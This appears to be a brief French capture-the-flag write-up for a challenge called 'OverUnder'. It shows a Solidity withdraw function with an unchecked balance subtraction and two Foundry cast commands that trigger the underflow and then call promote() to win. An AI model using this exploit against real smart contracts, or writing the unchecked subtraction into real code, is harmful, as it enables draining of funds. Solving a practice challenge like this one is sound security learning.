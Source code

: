 # OverUnder - K.L.M

Contrat vulnérable à un underflow...

```solidity
    // Fonction pour retirer des tokens
    function withdraw(uint256 amount) public {
        balances[msg.sender] -= amount;
    }
```

Avec foundry :
```bash
cast send $TAR "withdraw(uint256)" 1000 -r $RPC --private-key $PK
cast send $TAR "promote()" -r $RPC --private-key=$PK
```
Win !